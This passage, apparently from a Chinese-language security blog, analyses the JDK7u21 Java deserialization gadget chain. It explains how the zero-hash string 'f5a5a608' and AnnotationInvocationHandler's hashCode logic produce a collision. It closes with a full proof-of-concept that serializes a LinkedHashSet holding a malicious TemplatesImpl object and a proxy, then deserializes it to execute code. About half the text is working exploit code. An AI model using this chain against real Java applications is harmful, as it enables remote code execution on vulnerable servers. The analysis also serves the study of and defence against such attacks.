 for 循环内调用了 `memberValueHashCode()` 函数，其精简代码如下

```text
private static int memberValueHashCode(Object var0) {
        Class var1 = var0.getClass();
        if (!var1.isArray()) { // 匹配到该条件
            return var0.hashCode();
        } else if (var1 == byte[].class) {
            ....
        } else {
            ...
        }
}
```

如果 Entry 的 value 的 Class 不为 Array，则 `memberValueHashCode()` 函数返回 `value.hashCode()`，在这里相当于

```text
127 * key.hashCode() ^ value.hashCode();
```

为了让最后返回的 `result` 和 `value.hashCode()` 相同，这就要求

* `memberValues` 仅有一个 entry，否则 for 循环内每次计算的结果会累加
*  `key.hashCode()` 的值为0，从而 127 \* key.hashCode\(\) = 0，0 和 任何数异或还是原值
* value 和 之前添加到 hashset 的对象相同， \(利用代码中该值为包含恶意代码的 templates 对象\)

前面提到字符串 `f5a5a608` 的 hashCode 为 0，所以这里只要让 `AnnotationInvocationHandler` 的 `memberValues` 内只放一个 key 为字符串 `f5a5a608`，value 为包含恶意代码的 `templates` 对象即可

到这里，就可以写出完整的利用代码

```text
    @Test
    public void testPoc() throws Exception {
        Map map = new HashMap();
        String magicStr = "f5a5a608";
        final Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Override.class, map);
        setFieldValue(invocationHandler, "type", Templates.class);
        // value 先放入任意值，让 HashSet.add(proxy) 成功
        map.put(magicStr, "foo");
        Templates proxy = (Templates) Proxy.newProxyInstance(InvocationHandler.class.getClassLoader(), new Class[]{Templates.class}, invocationHandler);
        Templates evilTemplates = getEvilTemplates();
        HashSet target = new LinkedHashSet();
        target.add(evilTemplates);
        target.add(proxy);
        // 放入实际的 value
        map.put(magicStr, evilTemplates);

        String filename = "/tmp/jdk7u21";
        // 序列化
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(filename));
        oos.writeObject(target);
        // 反序列化, boom
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
}
```
